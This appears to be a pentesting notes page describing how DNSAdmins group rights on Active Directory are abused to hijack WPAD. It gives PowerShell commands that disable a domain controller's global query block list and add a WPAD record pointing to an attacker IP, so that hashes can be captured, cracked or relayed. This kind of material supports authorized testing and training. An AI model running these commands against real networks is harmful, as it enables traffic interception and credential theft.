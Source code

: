 ## Creating a WPAD Record

Another way to abuse `DNSAdmins` group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server.

By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocol are quite vulnerable to hijacking and any domain user can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [responder.md](../../../../toolbox/tooling/sniffing-and-spoofing/responder.md "mention") or [inveigh.md](../../../../toolbox/tooling/sniffing-and-spoofing/inveigh.md "mention") to perform traffic spoofing and attempt capture password hashes and crack them offline or perform an SMBRelay attack

### Disabling the Global Query Block List

To setup this attack, we first need to disable the global query block list:

{% code overflow="wrap" %}
```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
{% endcode %}

### Adding a WPAD Record

Then add a WPAD record pointing to our attack machine.

{% code overflow="wrap" %}
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
{% endcode %}
